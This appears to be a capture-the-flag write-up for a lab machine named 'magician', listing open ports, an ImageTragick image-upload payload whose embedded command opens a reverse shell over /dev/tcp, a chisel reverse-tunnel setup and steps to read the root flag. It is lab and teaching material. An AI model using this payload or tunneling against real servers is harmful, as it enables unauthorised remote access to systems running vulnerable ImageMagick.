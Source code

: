 
## magician 

#### Scan
```
ReferTo : nmap/*
```
- 21/ftp
- 8080/http-proxy
- 8081/nginx


#### Upload Payload
- Payload Find
	```
	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20Image%20Magik/imagetragik1_payload_imageover_reverse_shell_devtcp.jpg
	```
- Payload Content
	```
	push graphic-context
	encoding "UTF-8"
	viewbox 0 0 1 1
	affine 1 0 0 1 0 0
	push graphic-context
	image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/ip/80 0<&1 2>&1'
	pop graphic-context
	pop graphic-context
	```
	- echo "{PAYLOAD_CONTENT}" > payload.php.png -> `Gainig Access`

#### System Enumeration
- netsta -nltp
  - Find :  127.0.0.1:6666
  - Get a tunneling with `chisel`


#### TUNNELING
- chisel
  - server (Darwin-OSX): ./chisel server --reverse --port 4343
  - client (chisel_1.7.6_linux_386)
    - ./chisel client {MY_IP} {SERVER_PORT}  R:{BIND_PORT}:{LOCALHOST}:{TUNNELING_PORT}

#### ROOT FLAG
- Access to : 127.0.0.1:{BIND_PORT}
- read: root/root.txt
- `https://www.tunnelsup.com/hash-analyzer/` : hexidecimal
  - `hexidecimal` to  `ASCCI` code